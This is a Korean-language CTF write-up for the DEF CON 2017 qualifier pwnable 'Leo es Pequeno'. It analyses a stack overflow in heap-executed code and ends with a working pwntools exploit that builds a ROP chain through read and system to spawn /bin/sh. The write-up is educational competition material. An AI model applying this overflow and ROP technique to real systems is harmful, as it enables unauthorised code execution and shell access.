

# DEF CON CTF Qualifier 2017: Leo es Pequeno

**write-up by [kimtruth](https://github.com/kimtruth)**

**Category:** Pwnable

**Description:**

> You boys like Mexico?!
>
> leo_33e299c29ed3f0113f3955a4c6b08500.quals.shallweplayaga.me 61111
>
> Files: [leo](https://github.com/kimtruth/CTF-write-up/raw/master/DEF%20CON%20CTF%20Qualifier%202017/Leo%20es%20Pequeno/leo)

## [Step 1] 파일 형식 판정

```c
signed __int64 __fastcall categorize(_BYTE *input, int a2)
{
  signed __int64 result; // rax@25
  int table[256][2]; // [sp+10h] [bp-820h]@2
  unsigned int maxFreqChar; // [sp+814h] [bp-1Ch]@1
  unsigned int minFreqChar; // [sp+818h] [bp-18h]@1
  unsigned int unusedCnt; // [sp+81Ch] [bp-14h]@1
  unsigned int asciiCount; // [sp+820h] [bp-10h]@1
  unsigned int minFreq; // [sp+824h] [bp-Ch]@1
  unsigned int maxFreq; // [sp+828h] [bp-8h]@1
  int i; // [sp+82Ch] [bp-4h]@1

  maxFreq = 0;
  minFreq = -1;
  asciiCount = 0;
  unusedCnt = 0;
  minFreqChar = 511;
  maxFreqChar = 0;
  for ( i = 0; i <= 255; ++i )
  {
    table[i][0] = i;
    table[i][1] = 0;
  }
  for ( i = 0; i < a2; ++i )
    ++table[input[i]][1];                       // ascii frequency analysis
  for ( i = 0; i <= 255; ++i )
  {
    if ( table[i][1] > maxFreq )
      maxFreq = table[i][1];
    if ( table[i][1] < minFreq )
      minFreq = table[i][1];
    asciiCount += table[i][1];                  // asciiCount : 사용된 ascii값 종류
  }
  asciiCount >>= 8;
  sub_40185E((_DWORD *)table, 256);             // sort
  for ( i = 0; i <= 255; ++i )
  {
    if ( table[i][1] )
    {
      if ( table[i][0] < minFreqChar )
        minFreqChar = table[i][0];
      if ( table[i][0] > maxFreqChar )
        maxFreqChar = table[i][0];
    }
    else
    {
      ++unusedCnt;
    }
  }
  if ( unusedCnt > 4 || 10 * asciiCount <= maxFreq )
  {
    if ( maxFreqChar > 0x7F || minFreqChar <= 8 )
    {
      if ( minFreq && 10 * asciiCount < maxFreq )
      {
        result = 100LL;                         // Its an executable?  Let's see what 'file' says...
      }
      else if ( minFreq || 2 * asciiCount >= maxFreq )  // 1. minFreqChar <= 8   && 10 * asciiCount == maxFreq
                                                        // 2. maxFreqChar > 0x7f && 10 * asciiCount == maxFreq 
      {
        result = 22LL;                          // This doesn't match my patterns.  Checking...
      }
      else
      {
        result = 25LL;                          // I guess its binary data. Let's see what 'file' says...
      }
    }
    else if ( table[255][0] == 32 )
    {
      result = 49LL;                            // This is ASCII text.
    }
    else
    {
      result = 50LL;                            // This is ASCII data.
    }
  }
  else
  {
    result = 2LL;
  }
  return result;
}
```

먼저 조건식을 분석하여 `This doesn't match my patterns. Checking...`이 나오게 했다.
이유는 그냥.. 뭔가 의심가는 부분이였고 다른 부분이 공격가능한지 몰랐었다.

## [Step 2] 공격 가능성

먼저 Checking...한다고 하면서 call하는 함수는 heap에서 코드가 실행이 된다.

```
   0xab9000:	push   rbp
   0xab9001:	mov    rbp,rsp
   0xab9004:	mov    QWORD PTR [rbp-0x28],rdi
   0xab9008:	mov    DWORD PTR [rbp-0x2c],esi
   0xab900b:	mov    eax,DWORD PTR [rbp-0x2c]
   0xab900e:	mov    edx,eax
   0xab9010:	shr    edx,0x1f
   0xab9013:	add    eax,edx
   0xab9015:	sar    eax,1
   0xab9017:	add    eax,0x1
   0xab901a:	mov    DWORD PTR [rbp-0x8],eax
   0xab901d:	mov    DWORD PTR [rbp-0x4],0x11
   0xab9024:	mov    DWORD PTR [rbp-0x4],0x0
   0xab902b:	jmp    0xab9062
   0xab902d:	mov    eax,DWORD PTR [rbp-0x2c]
   0xab9030:	mov    edx,eax
   0xab9032:	shr    edx,0x1f
   0xab9035:	add    eax,edx
   0xab9037:	sar    eax,1
   0xab9039:	add    eax,0x1
   0xab903c:	cmp    eax,DWORD PTR [rbp-0x8]
   0xab903f:	je     0xab9043
   0xab9041:	jmp    0xab906b
   0xab9043:	mov    eax,DWORD PTR [rbp-0x4]
   0xab9046:	movsxd rdx,eax
   0xab9049:	mov    rax,QWORD PTR [rbp-0x28]
   0xab904d:	add    rax,rdx
   0xab9050:	movzx  eax,BYTE PTR [rax]
   0xab9053:	mov    edx,eax
   0xab9055:	mov    eax,DWORD PTR [rbp-0x4]
   0xab9058:	cdqe   
   0xab905a:	mov    BYTE PTR [rbp+rax*1-0x20],dl
   0xab905e:	add    DWORD PTR [rbp-0x4],0x1
   0xab9062:	mov    eax,DWORD PTR [rbp-0x4]
   0xab9065:	cmp    eax,DWORD PTR [rbp-0x2c]
   0xab9068:	jl     0xab902d
   0xab906a:	nop
   0xab906b:	pop    rbp
   0xab906c:	ret    
```

그냥 한번 귀찮으니 hexray를 돌려봤다.


```c
int __cdecl main(_BYTE *s, int num, const char **envp)
{
  int result; // eax@2
  char v4[24]; // [sp+Ch] [bp-20h]@3
  int v5; // [sp+24h] [bp-8h]@1
  int i; // [sp+28h] [bp-4h]@1

  v5 = num / 2 + 1;
  for ( i = 0; ; ++i )
  {
    result = i;
    if ( i >= num )
      break;
    result = num / 2 + 1;
    if ( result != v5 )
      break;
    v4[i] = s[i];
  }
  return result;
}
```
우리가 입력한 문자열을 어느 배열에 그대로 복붙을 하고 있다.

근데 일단 우리가 입력 가능한 문자가 16000자 였는데 그 배열이 `rbp-0x20`에 위치해 있다. 

그렇다면 return address 조작이 가능할 것이다.

하지만 `rbp-0x8`를 주의해야 한다. 

`rbp-0x8`에는 기존의 내용인 `8001`이 있어야 한다. 또한 `rbp-0x4`에 `0x1c`를 넣어 줘야 하는데 

그 이유는 `i`가 `0x1c`일 때 `rbp-0x4`에 값이 대입되기 때문이다.


## [Step 3] Exploit

`This doesn't match my patterns.  Checking...`가 뜨게 하기 위해서 620개의 빈도를 가지는 문자를 맞춰준다.
```python
#-*- coding:utf-8 -*-
from pwn import *
#r = remote('leo_33e299c29ed3f0113f3955a4c6b08500.quals.shallweplayaga.me', '61111')
r = process('./leo')
print pidof(r)

paylod = ''
paylod += p32(8001) * 7 # [rbp - 0x20] ~ [rbp - 0x8]
paylod += p32(0x1c) 	# [rbp - 0x4]
paylod += p64(0x0) # rbp, 아무거나 
paylod += p64(0x402703) # pop rdi ret
paylod += p64(0) #fd
paylod += p64(0x402701) # pop rsi pop r15 ret
paylod += p64(0x0604188) # bss
paylod += p64(0xaaaaaaaa) # junk
paylod += p64(0x401090) # read@plt
paylod += p64(0x402703) # pop rdi ret
paylod += p64(0x0604188) # bss
paylod += p64(0x0400FD0) # system@plt


# for "This doesn't match my patterns.  Checking..." just padding
paylod += chr(255) * 620

for i in range(0, 254):
	paylod += chr(i) * 60

paylod += chr(254) * (16000 - len(paylod)) # for 16,000bytes

print len(paylod)

r.send(paylod)
r.send("/bin/sh\x00\n")

r.interactive()
```


